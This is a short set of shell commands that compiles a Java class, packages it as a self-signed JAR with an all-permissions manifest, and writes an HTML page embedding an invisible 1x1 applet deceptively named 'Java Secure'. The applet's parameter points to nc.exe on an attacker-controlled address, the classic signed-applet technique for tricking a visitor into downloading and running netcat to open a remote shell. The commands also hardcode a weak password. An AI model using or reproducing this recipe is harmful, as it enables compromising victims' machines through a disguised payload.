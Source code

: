 ### Specify the legacy source and target version of Java, along with the bootclasspath during compilaion
/usr/lib/jvm/java-8-openjdk-amd64/bin/javac -source 1.7 -target 1.7 -bootclasspath /usr/lib/jvm/java-8-openjdk-amd64/jre/lib/rt.jar Java.java

echo "Permissions: all-permissions" > manifest.txt

/usr/lib/jvm/java-8-openjdk-amd64/bin/jar cvf Java.jar Java.class

### Specify RSA as the key generation algorithm, and use the same password for your keystore and keypass.
keytool -genkey -keyalg rsa -alias signapplet -keystore mykeystore -keypass password123 -storepass password123

### Make sure to do the same with the passwords when signing the JAR file
/usr/lib/jvm/java-8-openjdk-amd64/bin/jarsigner -keystore mykeystore -storepass password123 -keypass password123 -signedjar SignedJava.jar Java.jar signapplet

echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://192.168.1.1:80/nc.exe"></applet>' > java.html
